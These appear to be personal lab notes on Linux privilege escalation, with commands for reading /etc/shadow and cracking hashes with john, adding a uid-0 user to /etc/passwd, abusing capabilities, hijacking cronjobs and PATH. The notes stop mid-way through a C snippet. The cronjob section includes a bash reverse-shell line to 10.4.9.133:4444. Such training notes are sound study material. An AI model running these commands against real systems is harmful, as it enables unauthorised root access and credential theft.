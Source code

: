 --
**method reading /etc/shadow**
--
1. `nano /etc/shadow` | get contents of shadow
2. `nano /etc/passwd` | get contents of passwd
3. `unshadow passwd.txt shadow.txt > passwords.txt`
4. use john to crack passwords
--
**method adding user with root priv**
--
1. `openssl passwd -1 -salt THM password1` | we need the hash value of the password we want new user to have
2. `nano /etc/passwd` | add username and salt and shell to file
3. `<user>:<hash>:0:0:root:/root:/bin/bash` | line added to /etc/passwd 
4. `su <user>` | switch to user
--
**Capabilities**
--
capabilities allow binaries to run without needin a higher privledged user
without suid set this privesc vector is not discoverable when enumerating files looking for suid
GTFObins has a good list of binaries that can be leveraged for privilege escalation if we find any set capabilities
--
`getcap / -r 2>/dev/null` | list capabilities, look on gtfo bin for a way to generate a root shell
--
**Cronjobs**
--
not inherently vulnerable BUT
if script is run with elevated privledges and we can edit the script we can use this vector to escalate privledges
sometimes scripts are no longer used and deleted but the cronjob is not removed, meaning we can create a script to fill its place
check script with ls -l to make sure it is executable
--
`cat /etc/crontab` | read what cron jobs are running on the system, what user a script runs as (check who can read and write to it aswell)
`bash -i >& /dev/tcp/10.4.9.133/4444 0>&1` | add this to a .sh cronjob
`locate <script>` | test if a script still exists | if path is not defined it will look in crontab path variable, make sure to chmod script
--
**PATH**
--
can be used to hijack an application to run a script
all commands not built into the shell or not defined with an absolute path linux will search in the PATH
if we have write permissions for one of these folders in PATH we can hijack
--
1. What folders are located under $PATH
2. Does your current user have write privileges for any of these folders?
3. Can you modify $PATH?
4. Is there a script/application you can start that will be affected by this vulnerability?
--
`find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u` | list all writable folders cleanly, compare with `echo $PATH`, add `| grep <subfoler>` for specified searches with folders that may be more present in PATH variable
`export PATH=/tmp:$PATH` | mutate path to add a folder to it, usually a folder we can write to
--
walkthrough scenario:
since PATH is invoked when there is no path present when executing a command we will write a scrip that executes a command with no path, in the script we will set uid to root
1. create script
#include<unistd.h>
void main()
{